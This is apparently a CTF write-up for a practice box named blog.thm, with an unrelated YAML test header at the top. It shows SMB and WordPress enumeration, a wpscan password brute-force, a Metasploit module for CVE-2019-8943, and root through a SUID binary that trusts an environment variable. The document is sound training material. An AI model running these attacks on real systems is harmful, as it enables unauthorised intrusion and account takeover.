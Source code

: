```yaml
---
title: Test Toc Level - TOC_LEVEL = 6
toc_level: 6
category: Dummy
date: 2019-1-1
---
```

Objectives

Capture two flags from the box
Steps

Since the task tells us to add blog.thm to the hosts file let’s do that before we start running anything on it.
Enumeration

As always lets start with a basic portscan

1
2
3
4
5
6
7
8
9
10
11
12

	

Nmap scan report for <IP>
Not shown: 998 closed ports
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

We have HTTP and SMB open. Let’s check out the SMB share
SMB

Let’s scan the machine with smbmap to check for available shares

1
2
3
4
5
6
7
8
9

	

» smbmap.py -H <IP>
[+] Finding open SMB ports....
[+] Guest SMB session established on <IP>...
[+] IP: <IP>:445 Name: blog.thm
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        BillySMB                                                READ, WRITE     Billy's local SMB Share
        IPC$                                                    NO ACCESS       IPC Service (blog server (Samba, Ubuntu))

Let’s try to get the files from the BillySMB share as it’s the one that stands out

1
2
3
4
5
6
7
8
9
10

	

» smbclient //10.10.29.18/BillySMB
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 11 00:52:57 2020
  ..                                  D        0  Tue May 26 19:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 20:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 20:13:45 2020
  check-this.png                      N     3082  Tue May 26 20:13:43 2020

                15413192 blocks of size 1024. 9737512 blocks available

If we download the files we don’t see anything obvious. We can check the jpg with stegsolve

1
2
3
4
5

	

» steghide extract -sf Alice-White-Rabbit.jpg
Enter passphrase:
wrote extracted data to "rabbit_hole.txt".
» cat rabbit_hole.txt
You've found yourself in a rabbit hole, friend.

So since this is a rabbit hole let’s check out the HTTP server
HTTP

http index
When we visit the website we see a basic blog. From the room description we know it’s running wordpress.

With that we can scan it using wpscan (I’ll remove the unnecessary info)

1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28

	

» wpscan --url blog.thm -e u
Interesting Finding(s):

[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.thm/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 |  - http://blog.thm/comments/feed/, <generator>https://wordpress.org/?v=5.0</generator>

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <========================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

We see the site is using WP version 5.0 and it found two users: kwheel and bjoel.

Room tags are hinting at a CVE (CVE-2019-8943) which is a vulnerability allowing for writing files with arbitrary paths thanks to path traversal in wp_crop_image().
If we read a bit more about this vuln we can find out that it requires a user account. Thankfully we got the two usernames here so let’s try bruteforcing at least one of them.

Since wpscan has a bruteforce feature we can use that.

1
2
3
4

	

» wpscan --url blog.thm -U kwheel,bjoel -P /opt/wordlists/rockyou.txt --password-attack wp-login -t 64
<RANDOM THINGS>

[SUCCESS] - kwheel / <REDACTED>

After around two minutes we succesfully gained a user account which we can now use to gain a shell.
CVE-2019-8943 - metasploit

Metasploit contains a module that exploits this vulnerability which we can use to gain a shell.
exploit/multi/http/wp_crop_rce
Shell

Now that we have a shell we can check for other users on the system

1
2

	

$ ls /home
bjoel

Privesc

Looking through the system we can’t find a way to get to bjoel but we can see a suid binary that stands out a bit with it being in /usr/sbin

1
2

	

$ /usr/sbin/checker
Not an Admin

The program prints out a string but doesn’t seem like it does anything else so let’s check it with ghidra.

Ghidra decompiler shows us a program looking something like this (the code below has been cleaned up a bit)

1
2
3
4
5
6
7
8
9
10
11
12

	

int main(void) {
  char *adminEnv = getenv("admin");

  if (adminEnv == (char *)0x0) {
    puts("Not an Admin");
  } else {
    setuid(0);
    system("/bin/bash");
  }

  return 0;
}

We can see this program just gets the “admin” env variable and checks if it’s not null so we can easily bypass this by setting it to anything.

1
2
3

	

$ admin=a /usr/sbin/checker
id
uid=0(root) gid=33(www-data) groups=33(www-data)

Now we can read the root flag, check out the bjoel’s files and find his hidden user flag in /media






Thanks to:

    Nameless0ne for creating this room
    you for reading.
    Hope you learned something :)

